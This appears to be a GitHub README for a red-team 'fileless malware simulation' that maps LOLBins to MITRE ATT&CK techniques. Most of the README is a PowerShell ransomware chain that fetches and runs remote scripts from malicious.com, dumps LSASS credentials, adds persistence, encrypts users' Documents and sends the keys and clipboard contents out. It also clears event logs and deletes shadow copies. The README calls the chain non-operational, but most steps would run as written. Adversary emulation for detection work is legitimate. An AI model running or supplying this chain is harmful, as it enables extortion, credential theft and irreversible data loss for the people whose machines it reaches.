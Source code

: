 
<div align="center">

# 🧠 **100% Fileless Malware Simulation**
> High-fidelity adversary emulation using in-memory execution and LOLBins

![License](https://img.shields.io/badge/license-MIT-black?style=flat-square)
![Status](https://img.shields.io/badge/build-simulation-lightgrey?style=flat-square)
![Scope](https://img.shields.io/badge/type-red_team-blue?style=flat-square)
![MITRE ATT&CK](https://img.shields.io/badge/framework-MITRE_ATT%26CK-red?style=flat-square)

</div>

---

## ❓ What Is Fileless Malware?

Fileless malware:
- Executes **entirely in RAM**
- Uses native OS tools like `PowerShell`, `rundll32`, and `WMIC`
- Reflectively injects into trusted processes
- Launches via macros, registry scripts, or LOLBins

🔒 **No files are written to disk**, making it hard to detect via signature-based AV.

---

## ✅ Is “100% Fileless” Achievable?

✔️ **Yes — in theory.**  
Chains can involve:
- Macro-based phishing
- [Reflective DLL Injection](https://attack.mitre.org/techniques/T1055/001/)
- Native binary abuse (LOLBins)
- No persistent files

⚠️ **In practice**:
- Temporary files or registry keys are often used
- Payloads live in memory
- Disk-based stubs may exist briefly

---

## 🔍 Why It Matters

- 🛡️ AV = file scanning → fails on memory-only payloads  
- 🧬 Fileless = increased stealth, dwell time, and forensic resistance  
- 🎯 Detection needs: EDRs, memory introspection, or behavioral analytics

---

## ⚠️ Legal & Ethical Use Only

This repository is for:
- Emulating **fileless threat behavior**
- Chaining [LOLBins](https://lolbas-project.github.io/)
- Simulating red/purple team adversarial tradecraft
- Safe adversary emulation in **isolated** environments

> 🔐 Use in **authorized labs only**

## 🔗 MITRE ATT&CK-Aligned PowerShell Simulation


---

## 🧩 LOLBins (Living Off the Land Binaries)

| Binary            | Function                            | Techniques                                          |
|------------------|-------------------------------------|-----------------------------------------------------|
| `rundll32.exe`   | Reflective DLL execution             | [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1055.001](https://attack.mitre.org/techniques/T1055/001/) |
| `mshta.exe`      | HTA script execution                 | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) |
| `regsvr32.exe`   | COM script loading                   | [T1218.010](https://attack.mitre.org/techniques/T1218/010/) |
| `wmic.exe`       | Remote execution, WMI abuse          | [T1047](https://attack.mitre.org/techniques/T1047/), [T1021.001](https://attack.mitre.org/techniques/T1021/001/) |
| `certutil.exe`   | Download/decode payloads             | [T1105](https://attack.mitre.org/techniques/T1105/), [T1140](https://attack.mitre.org/techniques/T1140/) |
| `msbuild.exe`    | Compile/execute C# payloads          | [T1127.001](https://attack.mitre.org/techniques/T1127/001/), [T1059.005](https://attack.mitre.org/techniques/T1059/005/) |
| `bitsadmin.exe`  | Background file transfer             | [T1105](https://attack.mitre.org/techniques/T1105/) |
| `schtasks.exe`   | Persistence via task scheduling      | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |

---
## 🔗 MITRE ATT&CK-Aligned PowerShell Simulation

> ⚠️ This is a **non-operational** emulation for training and detection tuning.

<details>
<summary>💥 Simulated Fileless Ransomware Chain (Click to Expand)</summary>

    ```powershell
    # 🎯 [T1190] – Initial Access (Phishing or Remote Exploit)
    $u = "http://malicious.com/a.ps1"
    try { IEX (New-Object Net.WebClient).DownloadString($u) } catch {}
    
    # 🪞 [T1055.012] – Reflective DLL Injection (In-Memory Execution)
    $encoded = "[Base64ReflectiveDLL]"
    $bytes = [Convert]::FromBase64String($encoded)
    $hMem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($bytes.Length)
    [System.Runtime.InteropServices.Marshal]::Copy($bytes, 0, $hMem, $bytes.Length)
    $entry = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($hMem, [Action])
    $entry.Invoke()
    
    # 🧠 [T1059.001] – PowerShell Command & Control
    $stage2 = "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/next.ps1')"
    Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($stage2)))))
    
    # 🔐 [T1548.002] – UAC Bypass via COM Interface
    (New-Object -ComObject Shell.Application).ShellExecute("powershell", "-nop -w hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/elevate.ps1')`"", "", "runas", 1)
    
    # 🧪 [T1003.001] – Credential Dumping (LSASS via comsvcs.dll)
    $lsass = (Get-Process lsass).Id
    rundll32 comsvcs.dll, MiniDump $lsass lsass.dmp full
    
    # 🔍 [T1016] – Network Discovery
    ipconfig /all | Out-Null
    Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.IPEnabled } | Select IPAddress, MACAddress
    
    # 🗂️ [T1112] – Registry Modification (Auto-Execution Persistence)
    $eCmd = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("powershell -nop -w hidden -EncodedCommand [encoded payload]"))
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "UpdateSvc" -Value "powershell.exe -EncodedCommand $eCmd" -Force
    
    # 🧫 [T1485] – Data Destruction / Boot Recovery Tampering
    Remove-Item "$env:TEMP\*" -Recurse -Force -ErrorAction SilentlyContinue
    bcdedit /set {default} recoveryenabled no
    bcdedit /set {default} bootstatuspolicy ignoreallfailures
    
    # 💣 [T1486] – Ransomware File Encryption (In-Memory Key Staging)
    $targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.xlsx,*.txt -Recurse -ErrorAction SilentlyContinue
    foreach ($file in $targetFiles) {
        $key = -join ((0..255) | Get-Random -Count 32 | ForEach-Object { [char]$_ })
        $aes = [System.Security.Cryptography.Aes]::Create()
        $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
        $aes.IV = New-Object Byte[] 16
        $enc = $aes.CreateEncryptor()
        $plain = [IO.File]::ReadAllBytes($file.FullName)
        $crypt = $enc.TransformFinalBlock($plain, 0, $plain.Length)
        [IO.File]::WriteAllBytes($file.FullName, $crypt)
        "$($file.FullName):$key" | Out-File "$env:APPDATA\tempkeys.log" -Append
    }
    
    # 📤 [T1041] – Exfiltration of Encryption Keys (via POST)
    try {
        $keyDump = Get-Content "$env:APPDATA\tempkeys.log" -ErrorAction SilentlyContinue
        $encoded = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($keyDump))
        Invoke-RestMethod -Uri "http://malicious.com/xkeys" -Method POST -Body $encoded
    } catch {}
    
    # 🔧 [T1070.004] – Artifact Cleanup
    Remove-Item "$env:APPDATA\tempkeys.log" -Force -ErrorAction SilentlyContinue
    Remove-Item "$env:TEMP\drop.ps1" -Force -ErrorAction SilentlyContinue
    wevtutil cl Security; wevtutil cl System; wevtutil cl Application
    
    # 📌 [T1053.005] – Scheduled Task Persistence
    schtasks /create /tn "SysSync" /tr "powershell -w hidden -ExecutionPolicy Bypass -File $env:APPDATA\run.ps1" /sc onlogon /rl highest
    
    # 📋 [T1115] – Clipboard Data Collection
    Add-Type -AssemblyName PresentationCore
    $text = [Windows.Clipboard]::GetText()
    Invoke-RestMethod -Uri "http://malicious.com/cliplog" -Method POST -Body ([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($text)))
    
    # 💾 [T1070.001] – Shadow Copy Deletion
    Start-Process "vssadmin" -ArgumentList "delete shadows /all /quiet" -WindowStyle Hidden -Wait
    Start-Process "wmic" -ArgumentList "shadowcopy delete" -WindowStyle Hidden -Wait
    
    # ⌛ [T1497.003] – VM/Sandbox Detection & Kill
    $vmCheck = (Get-WmiObject -Class Win32_ComputerSystem).Manufacturer
    if ($vmCheck -match "VirtualBox|VMware|Xen|QEMU") { Stop-Computer -Force }
    

## 📚 Resources

- 🔗 [LOLBAS Project](https://lolbas-project.github.io/)
- 🔗 [MITRE ATT&CK – T1218](https://attack.mitre.org/techniques/T1218/)
- 🔗 [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🔗 [LOLGEN Chain Generator](https://lolgen.hdks.org/)
- 🔗 [LOLOL Farm Sandbox](https://lolol.farm/)
- 🔗 [PrintNightmare Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)
- 🔗 [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
